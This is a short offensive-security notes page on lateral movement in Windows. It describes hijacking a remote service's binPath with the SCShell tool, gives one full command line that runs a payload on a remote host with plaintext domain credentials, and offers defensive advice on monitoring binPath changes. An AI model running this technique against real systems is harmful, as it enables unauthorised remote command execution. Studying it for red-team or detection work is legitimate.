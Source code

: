 # Lateral Movement Abusing Service Configuration Manager

It's possible to execute commands on a remote host by abusing service configuration manager by changing the service binpath to your malicious command and restarting the service so your payload gets executed - this is all automated by a nice tool [SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## Execution

Scshell expects the following arguments: target, service, payload, username, domain, password:

{% tabs %}
{% tab title="attacker@target" %}
```text
.\scshell.exe ws01 XblAuthManager "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" spotless offense 123456
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/scshell.gif)

## Considerations

From the defensive side, you may want to consider about monitoring services that change their binPaths "too often" as this may not be normal in your environment, especially if the binPath is "very" different \([Levenshtein](https://www.google.com/search?q=levenshtein+distance&oq=levensht&aqs=chrome.1.69i57j0l5.2647j0j7&sourceid=chrome&ie=UTF-8)\) to the previously known good value and if the service configuration is being changed over the network:

![](../../.gitbook/assets/image%20%28258%29.png)

## References

{% embed url="https://github.com/Mr-Un1k0d3r/SCShell" %}

